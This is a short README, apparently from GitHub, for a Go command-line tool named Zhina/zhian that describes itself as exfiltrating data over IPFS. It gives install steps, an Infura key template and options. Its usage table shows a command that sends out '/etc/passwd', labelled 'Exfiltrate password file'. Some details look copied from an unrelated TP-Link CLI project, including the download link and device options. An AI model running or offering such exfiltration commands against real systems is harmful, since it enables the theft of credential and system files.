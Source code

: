 ### Zhina



A simple app to exfiltration data with ipfs and some features.



## Background

![zhina](zhina.png)



## Installation

You can install a few ways:

1. Download the binary for your OS from https://github.com/smford/tplink-hs1x-cli/releases
1. or use `go install`
   ```
   go install -v github.com/hadesscs/zhian
   ```
1. or clone the git repo and build
   ```
   git clone https://github.com/hadesscs/zhian.git
   cd zhian
   go get -v
   go build
   ```


## Configuration

Create a configuration file called `config.yaml` an example is available below:
```
---
infura:
  PROJECT_ID: [PROJECT_ID]
  API_SECRET_KEY: [API_SECRET_KEY]
```


When zhian runs it checks the current directory for a `config.yaml`, if you wish to use a different configuration file use the command `--config /path/to/file.yaml`


## Command Line Options
```
--all             For all devices
--config string   Configuration file: /path/to/file.yaml, default = ./config.yaml (default "config.yaml")
--debug           Display debugging information
--device string   What device to query, (default: "all")
--displayconfig   Display configuration
--do string       encode64, encodedForTest
--help            Display help
--path string     Path to Exfiltrate
--version         Display version information
```




##  Example Usage
| Command | Details |
|:--|:--|
| `zhian --do encode64,encodedForTest --path /etc/passwd` | Exfiltrate password file |



